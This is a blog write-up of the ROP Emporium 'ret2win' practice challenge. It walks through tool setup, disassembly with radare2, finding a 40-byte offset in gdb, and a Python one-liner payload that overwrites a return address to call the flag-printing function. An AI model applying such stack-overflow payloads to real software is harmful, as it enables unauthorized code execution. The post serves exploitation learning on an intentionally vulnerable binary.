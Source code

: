 ```yaml
---
layout: post
title:  "ROP Emporium: Ret2win"
date:   21-02-2020 13:34:34
categories: exploitation
tags: Exploitation, ROP_Emporium, Ret2win
---
```


As I am not that experienced with exploitation yet, I recently decided to follow the series of challenges offered by [ROP Emporium][link1]. The challenges will be explained here both as a documentation exercise and with the hope that other cybersecurity enthusiasts will be able to find some value in my post. Since I'll solve most of the challenges in x64 architecture, the following document might be helpful [x64 cheatsheet][link2]

Requirement 
===========
First, we download the zip file for the challenges:
{% highlight bash%}
wget https://ropemporium.com/binary/rop_emporium_all_challenges.zip
unzip rop_emporium_all_challenges.zip
{% endhighlight %}
Radare2
>Radare2 is a complete framework for reverse-engineering and analyzing binaries; composed of a set of small utilities that can be used together or independently from the command line.

{% highlight bash%}
apt-get install git
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
{% endhighlight %}
Ropper
>You can use ropper to display information about binary files in different file formats and you can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64). For disassembly ropper uses the awesome Capstone Framework.

{% highlight bash%}
apt install python-pip
pip install ropper
{% endhighlight %}
Pwntools
>Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

{% highlight bash%}
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
{% endhighlight %}
Peda
>PEDA - Python Exploit Development Assistance for GDB

{% highlight bash%}
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
{% endhighlight %}

Ret2win
=======
A first glance at the binary using r2 shows three main functions:
{% highlight bash%}
0x00400746    1 111          sym.main
0x004007b5    1 92           sym.pwnme
0x00400811    1 32           sym.ret2win
{% endhighlight %}
Upon further examination, we can easily determine to which address we need to return to:
{% highlight bash%}
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
|           0x00400829      e8b2fdffff     call sym.imp.system
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret
{% endhighlight %}
Next, we need to determine our offset by providing the binary with a special non-repeatable pattern:
{% highlight bash%}
Creating our pattern:
gdb ret2win
pattern_create 200
or 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
{% endhighlight %}
Once we provide our pattern to the binary we are greeted with:
{% highlight bash%}
Program received signal SIGSEGV, Segmentation fault.                                                      
[----------------------------------registers-----------------------------------]                          
RAX: 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
RBX: 0x0                                                                                                  
RCX: 0x0                                                                                                  
RDX: 0x7ffff7fa4590 --> 0x0                                                                               
RSI: 0x6022a1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'"...)
RDI: 0x7fffffffe131 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                  
RBP: 0x6141414541412941 ('A)AAEAAa')                                                                      
RSP: 0x7fffffffe158 ("AA0AAFAAb")                                                                         
RIP: 0x400810 (<pwnme+91>:      ret)                                                                      
R8 : 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
R9 : 0x7ffff7fa9500 (0x00007ffff7fa9500)                                                                  
R10: 0x410                                                                                                
R11: 0x246                                                                                                
R12: 0x400650 (<_start>:        xor    ebp,ebp)                                                           
R13: 0x7fffffffe240 --> 0x1                                                                               
R14: 0x0                                                                                                  
R15: 0x0                                                                                                  
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)                         
[-------------------------------------code-------------------------------------]                                                                                                                                    
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>                                                       
   0x40080e <pwnme+89>: nop                                                                               
   0x40080f <pwnme+90>: leave                                                                             
=> 0x400810 <pwnme+91>: ret                                                                               
   0x400811 <ret2win>:  push   rbp                                                                        
   0x400812 <ret2win+1>:        mov    rbp,rsp                                                            
   0x400815 <ret2win+4>:        mov    edi,0x4009e0                                                       
   0x40081a <ret2win+9>:        mov    eax,0x0                                                            
[------------------------------------stack-------------------------------------]                          
0000| 0x7fffffffe158 ("AA0AAFAAb")                                                                        
0008| 0x7fffffffe160 --> 0x400062 --> 0x1f8000000000000                                                   
0016| 0x7fffffffe168 --> 0x7ffff7e0ebbb (<__libc_start_main+235>:       mov    edi,eax)                                                                                                                             
0024| 0x7fffffffe170 --> 0x0                                                                              
0032| 0x7fffffffe178 --> 0x7fffffffe248 --> 0x7fffffffe53a ("/root/ropemporium/ret2win")                  
0040| 0x7fffffffe180 --> 0x100040000                                                                      
0048| 0x7fffffffe188 --> 0x400746 (<main>:      push   rbp)                                               
0056| 0x7fffffffe190 --> 0x0                                                                              
[------------------------------------------------------------------------------]                          
Legend: code, data, rodata, value                                                                         
Stopped reason: SIGSEGV                                                                                   
0x0000000000400810 in pwnme ()   
{% endhighlight %}
We can see that the stack pointer(RSP) has now been overwritten by the value "AA0AAFAAb".  Using this value, we can determine how much padding will be needed before writing the address to the function ret2win@0x00400811
{% highlight bash%}
pattern offset AA0AAFAAb
AA0AAFAAb found at offset: 40
{% endhighlight %}
Now if all goes according to plan, the following line should return the flags:
{% highlight bash%}
python -c 'print "\x90"*40                #Will take care of the padding
+"\x11\x08\x40\x00\x00\x00\x00\x00\x00"'  #Will write our address into RSP
   
root@kali:~/ropemporium# python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault

{% endhighlight %}
   
*Note that the value of RIP has not been overwritten, this is because, in the x64 architecture, the value will not be poped into RDI if it cannot be jumped to or executed.

[link1]:https://ropemporium.com/
[link2]:/document/x64_cheatsheet.pdf
